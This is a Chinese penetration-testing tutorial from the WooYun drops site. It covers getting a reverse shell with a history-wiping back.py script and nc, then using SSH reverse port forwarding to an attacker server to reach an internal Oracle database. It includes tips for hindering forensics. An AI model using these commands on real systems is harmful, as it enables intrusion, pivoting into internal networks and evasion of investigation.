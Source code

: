 # 各种环境下的渗透测试

2013/08/06 19:18 | [insight-labs](http://drops.wooyun.org/author/insight-labs "由 insight-labs 发布")![](img/img1_u56_png.jpg)   | [技术分享](http://drops.wooyun.org/category/tips "查看 技术分享 中的全部文章")  | 占个座先  | 捐赠作者

### getshell:

* * *

找到切入点后，首先是要弹个 shell，一般我用[back.py](http://static.wooyun.org/20141017/2014101711593519930.zip)

配合 nc 使用，nc 监听端口就不说了。

back.py 会自动去掉各种 history 记录，确保 shell 断掉的时候不会被记录到 bash_history 里面

### ssh 各种姿势

* * *

反弹内网端口：

ssh 有几个比较重要的参数：

```
-f: 连接成功后切换到后台，不会占用当前的 shell，shell 断了也会继续执行，相当于 nohup 和&。 
-N: 连接后不调用 shell，用处后面讲。 
-R:把本地网络(可以是本机或者任何内网甚至外网端口)端口反弹到 ssh 服务器 
```

用法：

首先你要有个外网 ip 的 ssh 服务器，如果目标内网限制了访问端口，可以开到常见端口比如 80 或者 443 上面，可以直接改设置或者 iptables 映射一下。你需要有这个服务器的 root 权限。在 sshd_config 里面打开端口转发, AllowTcpForwarding yes 还有 Gateway Ports,如果之前没开的话改完需要重启一下 sshd。

另外就是因为反弹端口需要让目标机器登录到你的 ssh 服务器，为了安全起见需要建立一个专门用来端口转发的用户，useradd 随便建个用户，设置密码然后到/etc/passwd 里面，把最后一个':'后面的 shell 位置改成/sbin/nologin 或者/bin/false，这样即使对方记录了你的 ssh 密码也没法对你转发的服务器做什么(比如取证之类)

-N 的作用：

因为转发用的用户没有 shell，如果没有-N 的话会因为得不到 shell 而自动断开连接，-N 可以避免这一点。

开始转发：

```
ssh -fNR 要反弹到的端口:目标本机或者内外 ip:要反弹的目标端口 转发专用用户名@你的 ssh 服务器 ip 执行后会问你转发用户名的密码，输入成功后会自动切换到后台 
```

例子 1：

本地转发： 目标机器上有个 oracle 端口在 1521，但是只能从内网访问。提权提不上，没装 sqlplus 等工具，webshell 数据库管理各种出错，不过翻到了登录用户名和密码。不过我自己的机器上装了个 navicat for oracle⋯⋯ ssh 服务器上的端口转发用户名叫 forward，服务器 ip 是 123.123.123.123

```
ssh -fNR 11521:127.0.0.1:1521 forward@123.123.123.123 
```

注意：之所以开到 11521 端口是因为<1024 的端口需要 root 权限才能占用，另外注意你反弹到服务器的端口不能被 iptables 之类的挡住，不然你没法从外网访问(废话么)

反弹成功后，打开 navicat，新建个连接，ip 输入 123.123.123.123，端口输入 11521,然后用户名和密码，啪啪啪⋯⋯连上了
